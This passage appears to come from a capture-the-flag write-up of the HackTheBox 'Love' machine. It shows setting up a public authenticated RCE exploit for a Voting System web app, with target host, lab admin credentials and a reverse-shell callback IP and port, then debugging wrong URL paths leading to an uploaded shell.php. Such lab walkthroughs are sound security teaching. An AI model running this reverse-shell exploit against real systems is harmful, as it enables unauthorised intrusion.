 ![image-20210721141907134](https://0xdfimages.gitlab.io/img/image-20210721141907134.png)

It seems to be giving creds for the Voting System, and they work.

### RCE via Searchsploit Script

#### Initial Failure

Having identified an authenticated RCE exploit in Voting System earlier in searchsploit, and now creds, ‘ll give that a try. `searchsploit -m php/webapps/49445.py` will copy it to my current working directory. It’s a Python script. At the top there’s some config info to update:

```

# --- Edit your settings here ----
IP = "love.htb" # Website's URL     
USERNAME = "admin" #Auth username 
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password 
REV_IP = "10.10.14.6" # Reverse shell IP   
REV_PORT = "443" # Reverse port  
# --------------------------------

```

I ran the exploit, and nothing happened:

```

oxdf@parrot$ python 49445.py 
Start a NC listener on the port you choose above and run...

```

#### Troubleshooting

Looking at the Python script, it is using `requests` to send HTTP requests to the website. At the start, it creates a session, which will hold things like cookies to enable things like logging in. It stores it in the global variable `s`. I’ll add Burp as a proxy to that session so that I can see the requests it is sending and potentially see what’s wrong:

```

s = requests.Session()
s.proxies = {'http': 'http://127.0.0.1:8080'}

```

On running the script again, I see three requests, all of which are returning 404:

![image-20210721143836401](https://0xdfimages.gitlab.io/img/image-20210721143836401.png)

It’s not finding any of those pages. Above, I found the admin login page at `/admin/login.php`, but for some reason this script is adding `/votingsystem` before that. Right under where I configured the settings, there’s a handful of URLs defined:

```

INDEX_PAGE = f"http://{IP}/votingsystem/admin/index.php"    
LOGIN_URL = f"http://{IP}/votingsystem/admin/login.php"
VOTE_URL = f"http://{IP}/votingsystem/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/votingsystem/images/shell.php" 

```
